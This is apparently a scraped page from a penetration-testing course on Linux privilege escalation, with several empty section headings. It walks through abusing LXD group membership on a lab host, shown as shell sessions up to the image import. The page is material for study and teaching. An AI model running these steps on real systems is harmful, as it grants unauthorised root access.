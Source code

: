 ## Shared Libraries

## Shared Object Hijacking

## Group Memberships

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```
